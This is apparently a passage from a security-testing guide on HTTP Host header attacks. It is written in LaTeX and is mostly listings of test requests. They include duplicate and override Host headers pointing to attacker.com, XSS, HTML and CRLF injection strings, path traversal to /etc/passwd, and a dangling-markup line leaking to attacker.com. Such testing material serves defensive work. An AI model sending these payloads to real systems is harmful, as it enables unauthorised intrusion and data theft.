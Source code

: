\documentclass[12pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[caption=Multiple Header Tests]
# Test 1: Two different hosts
GET / HTTP/1.1
Host: vulnerable.com
Host: attacker.com

# Test 2: Case manipulation
GET / HTTP/1.1
Host: vulnerable.com
HoSt: attacker.com

# Test 3: Duplicate headers
GET / HTTP/1.1
Host: vulnerable.com
Host: vulnerable.com

# Test 4: Three or more
GET / HTTP/1.1
Host: first.com
Host: second.com
Host: third.com
\end{lstlisting}

\subsubsection{4. Header Injection Techniques}

\begin{lstlisting}[caption=Injection Tests]
# XSS injection
Host: vulnerable.com"><script>alert(1)</script>

# HTML injection
Host: vulnerable.com'><h1>Hacked</h1>

# Dangling markup
Host: vulnerable.com:'<a href="//attacker.com/?

# Path traversal
Host: vulnerable.com/../../etc/passwd

# CRLF injection
Host: vulnerable.com%0d%0aX-Injected-Header: test
\end{lstlisting}

\subsubsection{5. Host Override Headers}

\begin{lstlisting}[caption=Host Override Tests]
# Test various override headers
GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Host: attacker.com

GET / HTTP/1.1
Host: vulnerable.com
X-Host: attacker.com

GET / HTTP/1.1
Host: vulnerable.com
X-Forwarded-Server: attacker.com

GET / HTTP/1.1
Host: vulnerable.com
X-HTTP-Host-Override: attacker.com

GET / HTTP/1.1
Host: vulnerable.com
Forwarded: host=attacker.com
\end{lstlisting}

\subsubsection{6. Ambiguous Request Techniques}
\end{document}
